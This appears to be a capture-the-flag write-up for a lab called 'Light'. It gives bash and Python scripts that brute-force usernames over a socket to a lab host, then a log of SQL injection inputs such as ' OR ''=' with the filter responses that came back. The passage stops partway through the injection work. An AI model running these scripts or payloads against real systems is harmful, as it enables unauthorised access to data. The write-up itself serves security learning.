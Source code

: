 # Light

_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: alice. However this wasn't the admin username. Probably a rookie mistake on my part for not realising sooner that an SQL injection is likely to be more feasible.&#x20;

### SQL Injection

I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able find the username with a simple brute-force. The following shows a bunch of input (first line) and output from the application (second line)

**Possible SQL statements on the server side:**

```sql
SELECT * FROM users WHERE name='smokey';
```

**Attempts with common SQL injection inputs:**

1. **Force the statement to resolve to true**

Potentially tricking the database to return all the users

```sql
' OR 1=1 --
```

```sql
SELECT * FROM users WHERE name='' OR 1=1--';
```

Reponse: _For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)_

This tells us that comment values are banned



**Another attempt:**

```sql
' OR ''='
```

```sql
SELECT * FROM users WHERE name='' OR ''='';
```

This seems to return a password value (that is returned from the _alice_ username).&#x20;



2. UNION and SELECT statement

The UNION and SELECT keywords (along with their lower capital variations) are all banned too

```sql
UNION
SELECT
union
select
```

Reponse: _Ahh there is a word in there I don't like :(_

<pre class="language-sql"><code class="lang-sql">-- 1)
--INPUT: ' OR 1=1 
-- Error: unrecognized token:  "' LIMIT 30" 

--3) 
--INPUT: ' OR 1=1;
--Pause with no response

--2) 
--INPUT: 'UNION 
<strong>--Ahh there is a word in there I don't like :(
</strong>
--3)
--INPUT: 'SELECT
--Ahh there is a word in there I don't like :(

--4)
<strong>--INPUT: '--
</strong>--For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

--5) 
--INPUT: '' LIMIT 30 OR '1=1;
--Error: near "LIMIT": syntax error

</code></pre>



```sql
SELECT * FROM users WHERE name=''--';
```
